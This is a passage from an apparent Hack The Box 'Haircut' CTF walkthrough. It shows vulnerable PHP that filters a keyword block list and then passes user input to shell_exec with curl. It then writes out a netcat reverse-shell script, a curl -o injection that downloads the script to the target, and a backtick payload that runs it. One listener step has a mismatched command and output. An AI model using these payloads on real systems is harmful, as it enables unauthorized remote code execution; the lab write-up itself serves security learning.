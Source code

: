 		$naughtyurl=0;
		$disallowed=array('%','!','|',';','python','nc','perl','bash','&','#','{','}','[',']');
		foreach($disallowed as $naughty){
			if(strpos($userurl,$naughty) !==false){
				echo $naughty.' is not a good thing to put in a URL';
				$naughtyurl=1;
			}
		}
		if($naughtyurl==0){
			echo shell_exec("curl ".$userurl." 2>&1"); 
		}
		}
	?>
	```
	- Due to insufficient input sanitization, command injection and RCE is possible
6. Create reverse shell payload
	```
	┌──(root💀kali)-[~/htb/haircut/10.10.10.24/loot]
	└─# cat exploit.sh 
	#!/bin/bash
	nc 10.10.14.14 4444 -e /bin/bash
	```
7. Start `python` webserver
	```
	┌──(root💀kali)-[~/htb/haircut/10.10.10.24/loot]
	└─# python3 -m http.server 80
	Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
	```
8. Download it on `haircut.htb` w/ `-o` `curl` option
	```
	┌──(root💀kali)-[~/htb/haircut/10.10.10.24/loot]
	└─# curl --help | grep "\-o"
	 -o, --output <file>        Write to file instead of stdout
	
	# Payload
	formurl=-o /tmp/exploit.sh http://10.10.14.14/exploit.sh&submit=Go
	```
	![]({{ page.img_path }}Pasted%20image%2020220919181021.png)
9. Start `netcat` listener
	```
	┌──(root💀kali)-[~/htb/haircut/10.10.10.24/loot]
	└─# nc -nvlp 80 > exposed.php
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	```
10. Invoke reverse shell
	```
	# Payload
	formurl=`sh /tmp/exploit.sh`&submit=Go
	```
	![]({{ page.img_path }}Pasted%20image%2020220919181802.png)
